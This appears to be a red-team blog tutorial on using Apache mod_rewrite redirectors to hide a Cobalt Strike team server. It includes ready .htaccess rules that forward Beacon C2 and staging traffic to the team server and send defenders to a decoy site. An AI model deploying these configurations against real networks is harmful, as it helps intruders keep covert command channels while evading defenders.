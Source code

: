 ```yaml
---
layout: post
title: Cobalt Strike HTTP C2 Redirectors with Apache mod_rewrite
summary: How to set up a Command and Control redirector to only allow Cobalt Strike's C2 through. Uses Apache's rewrite module to handle the filtering.
tags: 
- mod_rewrite
- cobalt strike
image: /assets/apache/cobalt-strike-http-c2-demo.gif
commentIssueId: 13
---
```


Imagine you are performing a Red Team engagement. So far it's been very hard, fighting tooth and nail to get each step closer to totally owning their network. You finally get internal network access and things are stable. Everything looks good on your end, but on the Blue side of things IT is taking notice of traffic flowing to an unknown domain. A curious IT worker opens their browser and navigates to the site. 404 error. Suspicion++. Five minutes later your Beacons become unresponsive. You're blocked. Now you have to spin up some new infrastructure and get in again.

I am willing to bet we've all been in a similar situation at least once. One way we can reduce the risk of being caught is by using a redirector host to allow only command and control (C2) traffic reach our Cobalt Strike server and redirect all other traffic to an innocuous website, such as the target's site. A simple way to do this is using an Apache redirector as an intermediary server. Our C2 domain will point at the Apache redirector, which will perform the traffic filtering. An added benefit of using a separate host in this setup is if our domain is burned, our real Cobalt Strike team server's IP will still be useable. We can roll the redirector, get a new IP and domain, and be back in business. If we set up multiple callback domains in our Beacon payload, we won't even need to regain initial access.


# Infrastructure

You will need a fresh host to use as the Apache redirector. The host should be relatively easy to reconfigure with a new public IP. While a colo host will work, using a VPS is often an easier option. Keep in mind that all traffic used by Beacon will be received and sent back out (to your Cobalt Strike teamserver) by the host, so spec out the bandwidth and resources accordingly. Of course, the obligatory warning stands: make sure you understand your provider's Terms of Service and any applicable laws before using this for an engagement. 

Here is what our infrastructure will look like:
![Cobalt Strike HTTP C2 Redirector Infrastructure](/assets/apache/cobalt-strike-http-c2.png)


# Cobalt Strike

As you may expect, Cobalt Strike's Beacons use GET and POST requests for HTTP communications. Requests are made to URIs configured within the team server's Malleable C2 profile. Within the profile we can configure the request URIs, headers, parameters, and a number of other C2 options. I *highly* recommend reading the [documentation](https://www.cobaltstrike.com/help-malleable-c2) on Malleable C2 before using it; it's powerful! [@harmj0y's](https://twitter.com/harmj0y) post [A Brave New World: Malleable C2](http://www.harmj0y.net/blog/redteaming/a-brave-new-world-malleable-c2/) provides additional great insight.

For demonstration, we will use @harmj0y's Zeus Malleable C2 profile available [here](https://github.com/rsmudge/Malleable-C2-Profiles/blob/master/crimeware/zeus.profile). The profile configures Beacons to use the following C2 settings:

* user-agent: *Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; InfoPath.2)*
* HTTP GET URI: */metro91/admin/1/ppptp.jpg* 
* HTTP POST URI: */metro91/admin/1/secure.php*

To start Cobalt Strike with a Malleable C2 profile, use the following syntax:

```bash
./teamserver <Public IP> <password> </path/to/profile>
```

Make sure to configure your Cobalt Strike listeners and payloads to call out to your redirection domain(s), *spoofdomain.com* in our example. During a Red Team engagement, you will likely configure multiple callback domains

# Apache 

To set up Apache to use mod_rewrite, follow the first-time setup steps outlined in my [previous mod_rewrite post](https://bluescreenofjeff.com/2016-03-22-strengthen-your-phishing-with-apache-mod_rewrite-and-mobile-user-redirection/). 


The way we configure our htaccess rules will depend on whether we need to support staged Beacons, such as [Scripted Web Delivery](https://www.cobaltstrike.com/help-scripted-web-delivery), or not. 

## HTTP C2 Redirection Ruleset

To only perform HTTP C2 redirection, place the following ruleset in a *.htaccess* file within the Apache web root:

```plaintext
RewriteEngine On
RewriteCond %{REQUEST_URI} ^/(metro91/admin/1/ppptp.jpg|metro91/admin/1/secure.php)/?$
RewriteCond %{HTTP_USER_AGENT} ^Mozilla/4\.0\ \(compatible;\ MSIE\ 6\.0;\ Windows\ NT\ 5\.1;\ SV1;\ InfoPath\.2\)?$
RewriteRule ^.*$ http://TEAMSERVER-IP%{REQUEST_URI} [P]
RewriteRule ^.*$ http://example.com/? [L,R=302]
```

Replace *TEAMSERVER-IP* with the WAN IP of your Cobalt Strike team server. After saving the file, Apache will send requests for an approved URI with the user-agent configured in the Malleable C2 profile to our Cobalt Strike team server and redirect all other requests to *http://example.com/*. The question mark towards in line 7 ends the rewrite and redirects the user to exactly *http://example.com/*. If you want to retain the original request URI, delete the question mark.

Notice that the two expected HTTP URIs on line 4 are split by a pipe, enclosed in parentheses, and omit the leading forward slash. You can add other URIs the same way; this line is evaluated as a regular expression. Also note that the HTTP User Agent regex on line 3 requires all spaces, periods, and parentheses be escaped.

 
If you configure your Cobalt Strike listener to use a port other than port 80, you will need to configure Apache to [listen on that port](http://httpd.apache.org/docs/current/bind.html). By default on Debian, you can edit the port(s) Apache listens on in `/etc/apache2/ports.conf` and `/etc/apache2/sites-enabled/000-default.conf`. 


## HTTP C2 Redirection with Payload Staging Support
```plaintext
RewriteEngine On
RewriteCond %{REQUEST_URI} ^/updates/?$
RewriteCond %{HTTP_USER_AGENT} ^$
RewriteRule ^.*$ http://TEAMSERVER-IP%{REQUEST_URI} [P]
RewriteCond %{REQUEST_URI} ^/..../?$
RewriteCond %{HTTP_USER_AGENT} ^Mozilla/4\.0\ \(compatible;\ MSIE\ 6\.0;\ Windows\ NT\ 5\.1;\ SV1;\ InfoPath\.2\)?$
RewriteRule ^.*$ http://TEAMSERVER-IP%{REQUEST_URI} [P]
RewriteCond %{REQUEST_URI} ^/(metro91/admin/1/ppptp.jpg|metro91/admin/1/secure.php)/?$
RewriteCond %{HTTP_USER_AGENT} ^Mozilla/4\.0\ \(compatible;\ MSIE\ 6\.0;\ Windows\ NT\ 5\.1;\ SV1;\ InfoPath\.2\)?$
RewriteRule ^.*$ http://TEAMSERVER-IP%{REQUEST_URI} [P]
RewriteRule ^.*$ http://example.com/? [L,R=302]
```

New rules are added to lines 2 - 7. 

On line 2 the */updates/* URI is the URI configured in our Scripted Web Delivery. When the target host executes the web delivery command, it will first make a GET request to the configured URI with a blank HTTP User Agent. Lines 2 - 4 allow the request to be proxied to our teamserver. The next request the target host makes is GET to a random four character URI with the HTTP User Agent configured in the Malleable C2 profile. 

Lines 5 - 7 allow this second request through. It is possible that this pattern will change, so be sure to test your rulesets and makes changes accordingly to allow the full staging process to occur.


Here's a demo showing the C2 URL be visited by an end-user, running the Scripted Web Delivery command pulling from the same URL, and establishing a Beacon session through the redirector:
![Cobalt Strike HTTP C2 Redirector Demo](/assets/apache/cobalt-strike-http-c2-demo.gif)

# Summary

In a Red Team engagement, keeping core infrastructure hidden from defenders and flexible to change is crucial. Using Apache's mod_rewrite module we can obscure our command and control (C2) servers behind a VPS that is easily replaced. This way if a defender blocks our C2 domain and its IP, our fallback domains can be pointed to another VPS that proxies requests to the same teamserver used previously.



